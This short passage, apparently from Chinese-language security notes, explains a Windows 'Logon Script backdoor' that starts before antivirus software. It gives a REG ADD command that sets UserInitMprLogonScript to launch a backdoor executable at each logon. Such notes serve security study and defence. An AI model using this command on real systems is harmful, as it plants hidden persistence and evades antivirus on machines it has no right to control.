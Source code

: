   ![Alt text](../../cyber_security/images/image103.png)

- Logon Script后门
  - 概述：Logon Scripts是Windows登录脚本，当用户登录时触发，它能够优先于杀毒软件执行，从而绕过杀毒软件对敏感操作的拦截。
  - 将后门程序加入注册表HKEY_CURRENT_USER\Environment
  ```
  REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\Users\Administrator\Desktop\5555.exe"
  ```